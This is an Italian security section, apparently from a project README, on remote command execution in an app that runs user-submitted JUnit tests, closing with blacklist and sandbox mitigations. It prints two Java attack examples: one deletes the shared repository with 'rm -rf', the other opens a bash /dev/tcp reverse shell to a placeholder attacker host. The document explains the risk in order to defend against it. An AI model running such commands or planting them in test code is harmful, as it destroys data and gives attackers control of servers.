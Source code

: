 # Problemi di sicurezza
A causa della libertà data all'utente per l'esecuzione di test, l'applicazione risulta estremamente vulnerabile ad attacchi di tipo Remote Command Execution (RCE), che consiste nell'esecuzione di codice arbitrario su un server da una locazione remota.

Qui è possibile vedere un semplice esempio di come un utente attaccante potrebbe eliminare totalmente la cartella della repository condivisa:

```java
import org.junit.Test;
import static org.junit.Assert.*;

public class AppTest{
  @Test
  public void breakRepository(){
    try {
      String[] command = {"rm", "-rf", "/repository"};
      Process process = new ProcessBuilder(command).start();
    } catch (Exception e){}
  }
}
```

Nei casi più gravi un attaccante può anche ottenere una shell remota e prendere il controllo totale del container che esegue i test.

```java
import org.junit.Test;
import static org.junit.Assert.*;

public class AppTest{
  @Test
  public void reverseShell(){
    try {
      String[] command = {"/bin/bash", "-c", "exec 5<>/dev/tcp/attackerip/attackerport;cat <&5 | while read line; do $line 2>&5 >&5; done;"}; 
      Process process = new ProcessBuilder(command).start();
    } catch (Exception e){}
  }
}
```
(Ciò presuppone di essere in ascolto tramite tcp sul proprio ip `attackerip` e sulla porta `attackerport` per ottenere la shell).

Questa vulnerabilità può essere risolta principalmente in due modi:
- utilizzo di una **blacklist** di librerie, per non permettere all'utente di eseguire determinate azioni. Un approccio molto delicato, perché una singola dimenticanza lascia comunque il sistema completamente vulnerabile
- esecuzione dei test in una **sandbox** protetta, in modo tale che qualsiasi tentativo di attacco sia confinato in una zona sicura.
